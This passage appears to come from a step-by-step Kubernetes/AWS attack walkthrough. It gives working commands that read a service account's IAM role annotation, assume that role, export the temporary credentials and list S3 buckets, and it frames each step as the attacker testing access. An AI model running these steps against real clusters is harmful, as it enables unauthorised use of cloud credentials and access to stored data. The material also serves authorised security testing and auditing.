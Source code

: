 *   **Explanation:**
    *   The first two lines define variables for the service account name and namespace. Replace the placeholders with the correct values.
    *   The third line retrieves the `eks.amazonaws.com/role-arn` annotation from the service account and stores it in the `ROLE_ARN` variable.  The `jsonpath` is crucial for extracting the annotation value.
    *   The fourth line uses the AWS CLI to retrieve the details of the IAM role specified in the `ROLE_ARN`.  The `basename` command extracts the role name from the ARN.
*   **Why:** To examine the IAM permissions associated with the role assumed by the service account.
*   **Expected Output:** A JSON document containing the details of the IAM role, including its policies.
*   **Validation:** Analyze the `AssumeRolePolicyDocument` and `Policies` to determine if the role has overly permissive access to S3 buckets or other cloud resources.  Look for `s3:*` actions on `Resource: "*"`.
*   **Alternative Approaches:** Use the AWS Management Console or other AWS SDKs to inspect the IAM role.

**Step 3: Attempt to Assume the Role and List S3 Buckets (AWS Example)**

*   **Command:**

```bash
SERVICE_ACCOUNT_NAME="your-service-account" # Replace with actual service account name
NAMESPACE="your-namespace"  # Replace with actual namespace
ROLE_ARN=$(kubectl get serviceaccount $SERVICE_ACCOUNT_NAME -n $NAMESPACE -o jsonpath='{.metadata.annotations.eks\.amazonaws\.com/role-arn}')

# Assume the role (replace <DUMMY_SESSION_NAME> with a descriptive name)
aws sts assume-role --role-arn "$ROLE_ARN" --role-session-name "<DUMMY_SESSION_NAME>" > assume_role_output.json

# Extract credentials from the JSON output
AWS_ACCESS_KEY_ID=$(jq -r '.Credentials.AccessKeyId' assume_role_output.json)
AWS_SECRET_ACCESS_KEY=$(jq -r '.Credentials.SecretAccessKey' assume_role_output.json)
AWS_SESSION_TOKEN=$(jq -r '.Credentials.SessionToken' assume_role_output.json)

# Configure AWS CLI to use the assumed role's credentials
export AWS_ACCESS_KEY_ID="$AWS_ACCESS_KEY_ID"
export AWS_SECRET_ACCESS_KEY="$AWS_SECRET_ACCESS_KEY"
export AWS_SESSION_TOKEN="$AWS_SESSION_TOKEN"

# List S3 buckets (Test Permissions)
aws s3 ls
```

*   **Explanation:**
    *   This command first retrieves the IAM role ARN.
    *   It then uses the AWS CLI to attempt to assume the role associated with the service account.  `sts assume-role` creates a temporary session with the permissions of the specified role.
    *   It extracts the temporary access key, secret key, and session token from the `assume_role_output.json` file using `jq`.  `jq` is a powerful command-line JSON processor.
    *   The temporary credentials are then set as environment variables.
    *   Finally, it attempts to list S3 buckets using the assumed role's credentials.
*   **Why:** To verify that the attacker can successfully assume the role and has sufficient permissions to interact with S3.
*   **Expected Output:**
    *   If the role assumption is successful and the role has S3 `ListBuckets` permission, the command will list all S3 buckets accessible to the role.
    *   If the role assumption is successful but the role lacks S3 `ListBuckets` permission, you will receive an "Access Denied" error. This still indicates that the role has been successfully assumed, and the attacker can try other S3 actions (e.g., `s3 ls s3://<bucket-name>`).
    *   If the role assumption fails, an error message will be displayed.
*   **Validation:**  A successful listing of S3 buckets confirms that the attacker can assume the role and has at least `ListBuckets` permission. An "Access Denied" error still confirms successful role assumption, but with limited permissions, prompting the attacker to try other actions.
